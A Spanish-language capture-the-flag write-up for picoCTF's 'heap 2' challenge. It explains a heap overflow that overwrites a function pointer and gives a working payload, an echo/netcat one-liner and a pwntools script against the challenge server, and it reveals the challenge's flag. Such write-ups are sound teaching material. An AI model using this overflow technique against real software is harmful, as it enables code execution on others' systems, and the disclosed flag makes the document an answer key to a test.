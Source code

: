 # heap 2
![Descripcion del CTF](img/description.png)

## Descripción
Can you handle function pointers?  
Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall).  
Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).
Additional details will be available after launching your challenge instance.

## Resolución
Analizando el código fuente nos encontramos con lo siguiente:

Tenemos "x" declarada en el heap:

```c
char *x;
char *input_data;
```

Podemos ver sus direcciones con la opción 1:

```c
void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}
```

Podemos escribir información en "input_data", pudiendo hacer un heap overflow y llegar a x:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```
"x" es interpretada como un puntero de función:

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Y tenemos la función "win()" inaccesible:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Con lo cual, lo que hay que hacer es lo siguiente:
1. Obtener la dirección de memoria de "win()".
2. Realizar un heap obverflow para poner en x la dirección de memoria de la función "win()".
3. Llamar a "check_win()" para que llame a "win()".

Para encontrar la dirección de memoria de la función "win()" usaremos el siguiente comando:

```bash
objdump -D chall | grep "win"
```

![Consola](img/1.png)

Obteniendo '00 00 00 00 00 40 11 a0'. Esta dirección la necesitamos en little endian, debido a que la mayoría de ordenadores de arquitectura x86 lo usan.

El resultado tras cambiar el orden es: 'a0 11 40 00 00 00 00 00'. Ahota tenemos que transformarlo en hexadecimal, para que el ordenador los interprete correctamente:

'\xa0\x11\x40\x00\x00\x00\x00\x00'.

El siguiente paso es calcular el overflow necesario. El programa nos deja imprimir el heap, por lo que no tendremos que probar con fuerza bruta:

![Consola](img/2.png)

Vamos a escribir en 'input_data', que tiene el valor 'pico' y queremos modificar 'x', que tiene el valor 'bico'. Para poder llegar de una a otra restaremos sus direcciones de memoria y calcularemos cuántos caracteres poner por delante de la dirección de la función:

1. Convertimos las direcciones en decimal:
- - 0x7fb6b0 = 5220528
- - 0x7fb6d0 = 5220560
2. Restamos.
- - 5220560 - 5220528 = 32

Con lo cual, tenemos que añadir 32 bytes de información, un carácter es un byte, por lo que añadiremos antes de la dirección de la función 32 'D'.

Creando el siguiente payload: 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00'.

Ahora, para enviarlo no podemos usar la consola, puesto que no lo codifica automáticamnete. Para enviarlo correctamente tenemos dos opciones:

1. Con el comando 'echo':

nc mimas.picoctf.net 53733
```bash
echo -e "2\nDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00\n4" | nc mimas.picoctf.net 53733
```
- echo: sirve para enviar información al siguiente comando.
- - -n: Evita que 'echo' añada un \n al final.
- - 2\n: Selecciona la opción 2 del menú.
- - 'DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD': Rellena los espacios hasta llegar a la variable 'x'.
- - \x: Indica un carácter hexadecimal.
- - \x00\n: Da al Enter tras haber introducido el payload.

- - 4: Selecciona la opción 4 para imprimir por pantalla la flag (echo añade un \n por defecto al final).
- nc: Nos conectamos a la máquina de pico
- - mimas.picoctf.net: El servidor
- - 53733: El puerto

![Consola](img/3.png)

2. Con un script de python:

```python
from pwn import *

p = remote("mimas.picoctf.net", 53733)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```

- from pwn import *: Importamos la librería (pip install pwntools)
- p = remote: Nos conectamos al servidor y guardamos la conexión en 'p'.
- p.sendline: Enviamos una línea (con b antes para indicar que se envíen en bytes)
- p.recvuntil: Esperamos a que se reciba la cadena de texto para continuar (con b antes para indicar que se reciben en bytes).
- print: Imprimimos la conversación entre el programa y el servidor.

![Codium](img/4.png)

Obteniendo así la flag: 'picoCTF{and_down_the_road_we_go_dde41590}'.